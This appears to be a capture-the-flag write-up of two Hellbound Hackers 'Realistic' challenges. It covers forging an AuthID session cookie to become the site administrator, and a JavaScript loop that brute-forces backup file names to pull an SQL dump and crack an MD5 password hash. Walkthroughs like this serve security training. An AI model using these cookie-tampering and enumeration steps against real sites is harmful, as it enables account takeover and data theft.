 ###Realistic 1
This challenge has two parts: 1. figuring out how users are authenticated and 2. Finding out the "credentials" for the admin user. 

Fire up something to monitor http requests (Wireshark, Live HTTP Headers, etc.) and monitor your transactions as you login. An element of the response should catch your eye:
```
Set-Cookie	AuthID=4601597
```

If we look at other requests, we can see this AuthID is used anywhere "john doe" is displayed on the page. Let's try to change it and see if we can guess the admin Auth ID:
```
#Typical admin userids
Set-Cookie	AuthID=0
Set-Cookie	AuthID=1

#Maybe admin user is right before or right after?
Set-Cookie	AuthID=4601596
Set-Cookie	AuthID=4601598
```

All these result in the cookie being deleted and us being unauthenticated, so we need to find the actual AuthID used. Log in as 
"johndoe" again and navigate to the "Home" page. Here a link that wasn't there before should pop up at you - "Logs." Navigate to the /logs/ subdirectory and you will see this file:
```
Authorized Users
--------------------------------

user: johndoe
pass: [encrypted]
status: network analysis
last sessionid: [not shown]
******/JohnDoe.txt

---------------------------------
---------------------------------
user: administrator
status: owner
last sessionid: [not shown]
--------------------------------
--------------------------------
```

So there is a text file that contains some information on johndoe. We can either brute-force the directories on the site, or take a guess that the ****** = images. Navigate to the /images/ subdirectory and you should see an administrator.txt with the following:
```
AuthID: 4601420
```

Simply switch your AuthID cookie to that value, and you will now be able to edit the price. 

###Realistic 2
We find that upon entering the /backups/ directory, we are blocked from getting a directory listing. Luckily the challenge text gives us a hint that massively reduces the amount of possibilities:
```
September of 2004. It looks like backup_2004-09-01_1000.sql
```

So our backup file is going to be in the format:
```
backup_2004-09-xx_yy00.sql
```

With only 30 days in September and 24 hours in a day, that leaves us with only 720 combinations to brute-force. We will execute a script against the page to check the urls for us (we have to be on the page due to same-origin policy existing on the XMLHttpRequest) object.
```
function checkURL( url ) {
	var request = new XMLHttpRequest();  
	request.open('GET', url, true);
	request.onreadystatechange = function(){
	    if (request.readyState == 4){
	        if (request.status != 404) {  
	            console.log( url );
	        }  
	    }
	};
	request.send();
}

for( var day = 1; day <= 30; day++ ) {
	for( var hour = 0; hour <= 24; hour++ ) {
		var url_to_check = 'https://www.hellboundhackers.org/challenges/real2/backups/backup_2004-09-' + ( day < 10 ? '0' + day : day ) + '_' + ( hour < 10 ? '0' + hour : hour ) + '00.sql';

		checkURL( url_to_check );
	}
}
```

Executing this script will result in a valid url being outputed; simply download that sql file and open it up to reveal a username : md5. Decrypt the md5 hash to get your admin password.
